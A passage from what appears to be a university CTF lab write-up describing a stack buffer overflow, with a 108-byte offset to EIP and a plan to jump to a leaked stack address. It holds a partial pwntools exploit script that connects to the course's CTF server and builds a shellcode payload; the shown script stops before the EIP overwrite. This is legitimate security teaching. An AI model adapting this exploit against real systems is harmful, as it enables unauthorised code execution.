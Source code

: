 |![Terminal print of lab task1](img/Week10/ctf102-1.png)  | 

### **Writing the exploit in a cleaver way**

We see that the distance between the base address and the EIP is 108.

So our stategy will be:
* Given that we have the leaked stack base address, we will insert the shellcode, crafted using python pwn tools package, then overwrite the buffer until we get to **EIP** and then overwrite **EIP** with the leaked base address, therefore redirecting our code to the shellcode, that is in the leaked stack base address.

```python
    from pwn import *
    import re

    from pwnlib.adb.adb import shell

    #p = process("./program")

    e = context.binary = ELF("./program")
    p = remote("ctf-fsi.fe.up.pt",4001)

    #gdb.attach(p.pid)

    shellcode = asm(shellcraft.sh())

    p.recvuntil("buffer is ")

    stack_base = int(p.recv(10),16)

    payload = asm(shellcraft.sh())

    payload = payload.ljust(108,b'A')

```